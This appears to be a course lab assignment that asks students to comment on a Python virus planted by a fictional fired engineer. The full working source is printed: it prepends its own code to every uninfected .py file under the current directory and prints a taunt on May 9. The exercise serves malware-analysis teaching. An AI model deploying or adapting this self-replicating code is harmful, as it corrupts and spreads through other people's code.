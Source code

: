 # Ops Challenge: Python Malware Analysis

## Overview

The ability to read code written by others is a valuable skill to carry into your new career. Today you will analyze a malicious script written in Python and submit an interpreted version of the file with comments.

## Scenario

Last week, a GlobeX engineer was terminated from the organization under unpleasant circumstances. This morning, your service desk team responded to a ticket from the engineering department that their Python script repository had been tampered with, with the words "You have been hacked" written and saved into the scripts themselves. The service desk team also noted that the system clocks had been tampered with on various engineering computers an incorrectly set to May 9. After a careful review of system logs you find that the below script was executed with administrator privilege on various engineering systems.

The GlobeX board of directors has asked you to analyze the contents of this script and explain in plain terms what the script does.

## Objectives

Copy the below Python script to your public GitHub repo. Do not execute this script in your Ubuntu VM used for class. If you wish to execute this script, either backup your VM using VirtualBox Snapshot or create a separate VM for testing.

```python
#!/usr/bin/python3
import os
import datetime

SIGNATURE = "VIRUS"

def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
    return files_targeted

def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
    virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
        print("You have been hacked")

files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()

```

Perform an analysis of the Python-based code.

- Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
- Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
- Insert comments above the final three lines explaining how the functions are called and what this script appears to do.

## Stretch Goals (Optional Objectives)

Pursue stretch goals if you are a more advanced user or have remaining lab time.

In your submission, include comments towards the bottom explaining the below:

- Identify all the core Python/coding tools used by this script, e.g. functions.
- What kind of malware is this? Define this type of malware in your own words.
- How well is this code written? Would you have done something differently to achieve the same objective?

